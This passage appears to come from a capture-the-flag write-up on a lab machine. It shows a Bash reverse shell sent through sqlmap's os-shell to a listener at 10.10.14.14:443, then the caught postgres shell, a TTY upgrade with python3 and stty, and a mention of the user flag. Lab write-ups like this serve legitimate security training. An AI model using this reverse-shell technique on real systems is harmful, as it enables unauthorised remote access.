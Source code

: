 ### Shell

I’ll start `nc` and give `sqlmap` a Bash reverse shell to see if it works:

```

os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.14/443 0>&1"
do you want to retrieve the command standard output? [Y/n/a] Y

```

It hangs here, but at `nc` there’s a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.236] 51238
bash: cannot set terminal process group (1008): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$

```

Legacy Python is not installed, but Python3 is:

```

postgres@bc56e3cc55e9:/$ python -V
python -V
bash: python: command not found
postgres@bc56e3cc55e9:/$ python3 -V
python3 -V
Python 3.7.3

```

I’ll upgrade my shell using the standard trick:

```

postgres@bc56e3cc55e9:/$ python3 -c 'import pty;pty.spawn("bash")'
postgres@bc56e3cc55e9:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
postgres@bc56e3cc55e9:/$ 

```

This is important as I can’t do the next steps without a full TTY.

There’s also a `user.txt` in postgres’ home directory (not sure why it says `flag.txt` in the file, but the hash works):
